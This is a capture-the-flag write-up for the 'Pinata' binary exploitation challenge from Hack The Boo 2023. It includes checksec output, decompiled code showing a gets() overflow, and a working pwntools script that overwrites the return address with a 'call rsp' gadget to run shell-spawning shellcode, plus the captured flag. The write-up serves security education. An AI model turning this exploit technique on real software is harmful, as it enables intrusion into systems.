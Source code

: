 # Hack The Boo 2023

## Pinata

> Rather than resorting to hitting the piñata, unleash the treasures inside by letting out your loudest scream! Give it your all, and the goodies shall be yours!
>
>  Author: N/A
>
> [`pwn_pinata.zip`](pwn_pinata.zip)

Tags: _pwn_

## Solution
For this challenge we get a executable. First up checking what security measurements are setup.

```bash
$ checksec pinata
[*] '/home/ctf/pinata'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

So no `PIE` and the stack is executable. This could allow injecting shellcode and running it from the stack. Next up we check the file with `Ghidra`. The main is fairly small, does the typical setup (disabling buffering on stdin and stdout) and printing a banner. Then the function `reader` is called that reads to a local buffer. Here we definitely have an buffer overflow where we can inject shellcode.

```c
undefined8 main(void)
{
  setup();
  banner();
  reader();
  write(1,&UNK_00498206,0x13);
  return 0;
}

int reader(UI *ui,UI_STRING *uis)
{
  char *pcVar1;
  char local_18 [16];
  
  pcVar1 = gets(local_18);
  return (int)pcVar1;
}
```

Next we search for fitting rop gadgets to reach our shellcode. We find a fitting `call rsp` at address `0x41830d`. Since PIE is disabled we can just use the address as is. With this we have everything together, we overflow the buffer, override the `return address` with our gadget and then write our shellcode.

```python
from pwn import *

context.arch = "amd64"

#p = remote("94.237.63.238", 31528)
p = process("./pinata")

payload = b'A' * 24
payload += p64(0x41830d)
payload += asm(shellcraft.sh())
p.sendlineafter(b">> ", payload)
p.interactive()
```

Running this will get us the flag.

```bash
$ python3 solve.py
[+] Opening connection to 83.136.253.102 on port 33530: Done
[*] Switching to interactive mode
$ ls
flag.txt
glibc
pinata
$ cat flag.txt
HTB{5t4t1c4lly_l1nk3d_jmp_r4x_sc}
$
```

Flag: `HTB{5t4t1c4lly_l1nk3d_jmp_r4x_sc}`